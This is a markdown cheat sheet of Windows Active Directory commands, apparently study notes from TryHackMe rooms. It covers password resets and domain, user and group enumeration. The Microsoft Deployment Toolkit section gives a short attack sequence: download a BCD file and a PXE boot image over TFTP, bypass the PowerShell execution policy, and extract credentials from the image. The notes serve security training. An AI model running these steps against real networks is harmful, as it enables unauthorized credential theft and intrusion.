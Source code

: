 # Windows Commands

* [Active Directory](#active-directory)
* [Microsoft Deployment Toolkit](#microsoft-deployment-toolkit)


## Active Directory
Set password:
```
Set-ADAccountPassword [USERNAME] -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
```
Another way:
```
Set-ADAccountPassword -Identity [USERNAME] -Server [DOMAIN] -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)
```

Force password reset on next login:
```
Set-ADUser -ChangePasswordAtLogon $true -Identity [USERNAME] -Verbose
```
Force group policy update:
```
gpupdate /force
```
List all users in the AD domain:
```
net user /domain
```
List info on a specific user:
```
net user [USERNAME] /domain
```
List Groups in the AD domain:
```
net group /domain
```
List info on a specific group:
```
net group "[GROUP-NAME]" /domain
```
Enumerate password policy:
```
net accounts /domain
```
Enumerate AD Users:
```
Get-ADUser -Identity [USERNAME] -Server [DOMAIN] -Properties *
```
Example:
```
Get-ADUser -Identity gordon.stevens -Server za.tryhackme.com -Properties *
```
Pretty Output:
```
Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table Name,SamAccountName -A
```
Enumerate AD Groups:
```
Get-ADGroup -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroup -Identity Administrators -Server za.tryhackme.com
```
Enumerate group membership:
```
Get-ADGroupMember -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com
```
Generic search for AD objects:
```
Get-ADObject [OPTIONS]
```
Example:
```
Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com
```
Enumerate accounts that have a bad password count greater than 0:
```
Get-ADObject -Filter 'badPwdCount -gt 0' -Server [DOMAIN]
```
Get info about a specific domain:
```
Get-ADDomain -Server [DOMAIN]
```
* More info about the net command can be found here: https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/net-commands-on-operating-systems
* More info about cmdlets can be found here: https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps

************************************
## Microsoft Deployment Toolkit

Dowload BDC file via TFTP:
```
tftp -i [TARGET-IP] GET "\Tmp\[FILE-PATH]" conf.bcd
```

Recover the locations of the PXE boot images from the BCD file:
```
powershell -executionpolicy bypass
```
```
Import-Module .\PowerPXE.ps1
```
```
$BCDFile = "conf.bcd"
```
```
Get-WimFile -bcdFile $BCDFile
```
Download Image:
```
tftp -i [TARGET-IP] GET "[PXE-BOOT-IMAGE-LOCATION]" pxeboot.wim
```
Recovering Credentials from a PXE Boot Image:
```
Get-FindCredentials -WimFile pxeboot.wim
```

* Credit: https://tryhackme.com/room/breachingad

************************************

## References
* https://tryhackme.com/room/breachingad
* https://tryhackme.com/room/adenumeration
